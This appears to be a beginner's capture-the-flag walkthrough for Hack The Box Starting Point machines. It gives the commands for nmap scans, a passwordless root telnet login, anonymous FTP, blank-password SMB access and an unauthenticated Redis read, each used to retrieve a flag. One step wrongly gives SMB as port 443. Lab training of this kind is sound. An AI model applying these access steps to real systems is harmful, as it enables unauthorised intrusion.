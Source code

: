 Start here: https://app.hackthebox.com/starting-point

On environment Kali Linux and connect to HTB

Explain the linux command: https://explainshell.com/

Always ask google: https://www.google.com/

# Meow

1. Check port 23 running service

   `nmap -p 23 -sV TARGET_IP`

2. telnet service is running, execute `telnet`

   `telnet TARGET_IP`

3. login with `root`

4. login succeed
5. `ls` to show what's there
6. `cat flag.txt`

# Fawn

1. Check port 21 (FTP) running service

   `nmap -p 21 -sV TARGET_IP`

2. ftp service is running, execute `ftp`

   `ftp 10.129.190.178`

3. login with name `anonymous` without password

4. `ls` and there is a *flag.txt*

5. copy the file to current directory

   ftp>`get flag.txt`

6. exit ftp by command `bye`, then `cat flag.txt`

# Dancing

1. Check port 443 (SMB) running service

   `nmap -p 443 -sV TARGET_IP`

2. SMB service is running, see what is sharing in the server

   `smbclient -L TARGET_IP`

3. We are able to access with a blank password for the folder *WorkShares*

   `smbclient //TARGET_IP/WorkShares`

4. list the files in folder *WorkShares* smb: \> `ls`

5. Check the file *James.P* owns, the flag is inside *flag.txt*

6. smb: \James.P\> `get flag.txt`

# Redeemer

1. Check the tcp port openned on the machine, `-T5` used for quicker enum, `-sS` is checking the TCP SYN scan (half of the TCP handshake), `-sV` is used to check the version of the service

   `nmap -p 1000-9999 -sSV -T5 TARGET_IP`

2. port 6379/tcp is opened for **Redis** service **version 5.0.7**, Redis is an **in-memory database**

3. connect to Redis server, `-h` means host

4. `redis-cli -h TARGET_IP`

5. Connected success, select the first database in Redis: `select 0`

6. List all the keys in this database: `keys *`, the flag is in the *flag* key

7. Look at the value of the key *flag* by`get flag`

